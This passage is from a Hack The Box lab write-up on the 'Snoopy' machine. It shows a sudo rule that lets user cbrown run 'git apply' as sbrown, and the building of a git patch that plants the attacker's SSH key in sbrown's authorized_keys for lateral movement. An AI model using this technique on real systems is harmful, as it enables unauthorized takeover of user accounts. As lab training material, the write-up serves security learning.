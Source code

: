 ```bash
```


## From cbrown to sbrown


### Try to abuse "git apply"

```bash
cbrown@snoopy:~$ sudo -l
[sudo] password for cbrown:
Matching Defaults entries for cbrown on snoopy:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User cbrown may run the following commands on snoopy:
    (sbrown) PASSWD: /usr/bin/git ^apply -v [a-zA-Z0-9.]+$
cbrown
```

I can't read files but can write to files as `sbrown`

The trick from gtfobins won't work since it have regex filter : `^apply -v [a-zA-Z0-9.]+$`

> https://gtfobins.github.io/gtfobins/git/#file-write

Google : `git apply exploit`

> https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-git-privilege-escalation/

Create a patch that will write my ssh pub key to `sbrown`'s `authorized_keys`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ sudo mkdir -p /home/sbrown/.ssh

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ sudo chown -R bravosec /home/sbrown

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cat ~/.ssh/id_rsa.pub > /home/sbrown/.ssh/authorized_keys

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ git diff /dev/null /home/sbrown/.ssh/authorized_keys > /tmp/patch

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cat /tmp/patch
diff --git a/home/sbrown/.ssh/authorized_keys b/home/sbrown/.ssh/authorized_keys
new file mode 100644
index 0000000..3038d0b
--- /dev/null
+++ b/home/sbrown/.ssh/authorized_keys
@@ -0,0 +1 @@
+ssh-rsa AAAAB3NzaC1y.../enVjxsxpG91YoXDWPH1etLL9IE= kali@kali
```
